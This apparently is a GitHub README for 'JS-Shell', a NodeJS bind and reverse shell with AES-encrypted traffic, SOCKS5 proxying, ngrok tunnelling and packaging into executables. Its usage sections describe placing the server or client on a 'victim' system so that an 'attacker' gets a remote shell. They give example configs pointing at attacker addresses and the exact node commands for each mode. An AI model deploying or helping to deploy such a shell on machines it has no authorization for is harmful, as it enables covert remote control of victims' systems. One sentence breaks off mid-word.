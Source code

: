 
# JS-Shell
Netcat-lite NodeJS shell. A little side project I've been tinkering around in my freetime. Also as a way to expand my understanding about byte level encryption and networking.

* Built-in, byte level AES-256 encryption
* Bind connection
* Reverse connection
* Socks5 Proxy support
* Ngrok Tunneling

As a feature, all TCP bytes are encrypted with AES-256. However, nothing's stopping you from using a VPN or a proxy. Speaking of proxies, the client component supports socks5 proxying as well - although I have'nt got TOR proxying worked out yet..
Lastly, if configured, the server can spin up an ngrok endpoint to serve shells pubicly.

# Usage
The setup for the client/server will change according to the operation mode.
- Bind - Server is set up at the victim's system. Attacker(client) connects to the server and opens a shell.
- Reverse - Server is set up at the attacker's side. Victim machine running the client serves the shell to the attacker.

## Install dependencies
```
npm install
```

## Server
### Configuration
A JSON config file is required for the server to operate. Keys used in the server config:
* `aes_password`: String. AES Cipher key. Must have 32 alphanumeric characters. 
* `aes_iv`: String. AES Initalization Vector. Must have 16 alphanumeric characters.
* `listen_address`: String. Local IP address/Hostname.
* `listen_port`: Number. Port number.
* `use_ngrok`: Boolean. Use `true` or `false` if exposing an ngrok endpoint.
* `ngrok_authtoken`: String. ngrok authtoken.

It should be noted that the `aes_password` and `aes_iv` values MUST be the same for the server and client configs.

#### Example config
```
// server_config.json

{
    "aes_password": "cA3TcR9t3kfW9vYM9D2X5NJEzrSzfEAx", 
    "aes_iv": "zP9joVoh7tguTwr4",
    "listen_address": "0.0.0.0",
    "listen_port": 4444,
    "use_ngrok": true,
    "ngrok_authtoken": "token"
}
```
### Start server
Running the server in its required op mode is done in these methods. It should be noted that if the op mode is not specified, it will be defaulted to the Bind mode.
```
Options:
      --help        Show help                                          [boolean]
      --version     Show version number                                [boolean]
  -o, --opmode      Op mode. Accepted values "[b]ind or [r]everse mode. Defaults
                    to bind.
                          [string] [required] [choices: "b", "r"] [default: "b"]
  -c, --configfile  Config file for connection details       [string] [required]

Bind mode
$ node server.js -o b -c server_config.json

Reverse mode
$ node server.js -o r -c server_config.json
```

## Client
In this aspect, the client component acts as th
### Configuration
Keys used in the client config:
* `aes_password`: String. AES Cipher key. Must have a 32 alphanumeric characters.
* `aes_iv`: String. AES Initalization Vector. Must have a 16 alphanumeric characters.
* `remote_address`: String. Remote IP address/Hostname.
* `remote_port`: Number. Remote Port number.
* `use_socks_proxy`: Boolean. Use `true` or `false` if using a proxy. Supports Socks5 only.
* `proxy_address`: String. Proxy IP address/Hostname.
* `proxy_port`: Number. Proxy Port number.

It should be noted that the `aes_password` and `aes_iv` values MUST be the same for the server and client configs.

#### Example config
```
// client_config.json

{
    "aes_password": "cA3TcR9t3kfW9vYM9D2X5NJEzrSzfEAx",
    "aes_iv": "zP9joVoh7tguTwr4",
    "remote_address": "192.168.1.100",
    "remote_port": 4444,
    "use_socks_proxy": true,
    "proxy_address": "192.168.1.101",
    "proxy_port": 1080
}
```
### Start client
```
Options:
      --help        Show help                                          [boolean]
      --version     Show version number                                [boolean]
  -o, --opmode      Op mode. Accepted values "[b]ind or [r]everse mode. Defaults
                    to bind.
                          [string] [required] [choices: "b", "r"] [default: "b"]
  -c, --configfile  Config file for connection details       [string] [required]
  
Bind mode
$ node client.js -o b -c client_config.json

Reverse mode
$ node client.js -o r -c client_config.json
```

# Compiling
Use compilers such as [nexe](https://github.com/nexe/nexe) or [pkg](https://github.com/vercel/pkg) to package the server and client into their own executables.

# Notes
* Running the server/client components on different OSes will yield different Clis. I could expand this to support more types of clis in the future.
  * Windows - cmd
  * Linux/Android(termux) - bash

# Known Bugs
- As AES encryption and decryption happens on the byte level, translation errors are possible. This is especially prevalent on commands with very long outputs like `netstat -anop tcp` or `net users` on windows. Linux on the other hand is minimal.
- I've not gotten socks proxies that use TOR to work with this setup.


# Experimenal (not implemented)
Also experimented with RSA encryption in the early development stages of this project. Dig into the `crypt.js` to find out more. of course, that's not to say I may implement this iun the future..